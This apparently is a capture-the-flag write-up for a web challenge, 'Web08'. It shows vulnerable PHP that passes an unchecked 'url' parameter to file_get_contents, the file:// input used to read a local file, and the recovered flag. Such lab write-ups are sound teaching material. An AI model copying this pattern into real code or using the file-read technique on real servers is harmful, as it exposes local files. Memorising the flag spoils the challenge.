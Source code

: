 # Solve Web08:

Upon accessing the web page, we don't see many available information - just a search page.

However, as it is possible to see in the code below, the comment in html mentioning the page `vuln132321321321.html`. Besides of that, the vulnerable here is a local file inclusion (LFI), where an attacker can read an arbitrary file in the system.

```

<!-- Just to remember: g3n3 don't forget to remove the file vuln132321321321.html from temporary djudjuba folder ok? -->

<div>
            <?php
            if (isset($_GET['url'])) {
                $url = $_GET['url'];
                echo "<h2>Content:</h2>";
                
                // Realize uma solicitação HTTP para obter o conteúdo da URL
                $content = file_get_contents($url);
                
                // Exiba o conteúdo no corpo da página
                echo "<pre>" . htmlentities($content) . "</pre>";
            }
            ?>
        </div>
```

In this case, injecting the input `file:///etc/vuln132321321321.html` the output will be:

```
iFlag{fuzz











































<!-- ok, but you missed the middle hehehe, the MIDDLE!!!! NOT THE LAST PART, catch it if you are fast... 
















	1s_v3ry_c00l} -->
```

After that, is missing the **middle** of the flag. Yes, the middle. You could just fuzzing the endpoint or justing guessing that is `middle.html`.

By acessing `middle.html`: 

```
<html> <h1>Meeh, nice try... are you sure that you saw enough?? </h1> <!-- "1ng_p0rts_" --></html>
```

Finally, the entire flag is: 

```
iFlag{fuzz1ng_p0rts_1s_v3ry_c00l}
```
